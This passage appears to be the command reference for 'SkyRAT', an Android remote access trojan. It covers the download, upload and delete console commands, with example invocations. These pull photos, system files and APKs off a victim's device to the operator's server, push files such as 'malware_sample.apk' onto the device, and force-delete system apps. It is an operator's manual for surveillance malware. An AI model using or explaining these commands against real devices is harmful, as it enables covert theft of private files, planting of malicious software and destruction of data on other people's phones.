 **Examples:**
```bash
SkyRAT:/> download /sdcard/DCIM/Camera/IMG_001.jpg
SkyRAT:/> download /system/build.prop
SkyRAT:/> download /data/app/com.example.app/base.apk
```

**Features:**
- Supports files up to 50MB
- Preserves original filename and extension
- Automatic timestamping
- Base64 encoded transfer

**Output location:** `dumps/Downloaded_TIMESTAMP_filename.ext`

### **upload**
Upload files from server to device.

```bash
SkyRAT:/> upload <local_filename>
```

**Examples:**
```bash
SkyRAT:/> upload config.txt
SkyRAT:/> upload screenshot.png
SkyRAT:/> upload malware_sample.apk
```

**Features:**
- Uploads to `/sdcard/uploaded_files/`
- Automatic filename conflict resolution
- Progress indication for large files

### **delete**
Delete files or directories from device.

```bash
SkyRAT:/> delete <path>
```

**Examples:**
```bash
SkyRAT:/> delete /sdcard/test.txt
SkyRAT:/> delete /sdcard/temp_folder
SkyRAT:/> delete -f /system/app/unwanted.apk
```

**Options:**
- `-f`: Force delete (attempts multiple deletion methods)
- Supports both files and directories
- Recursive directory deletion

### **mkdir**
Create directories on device.
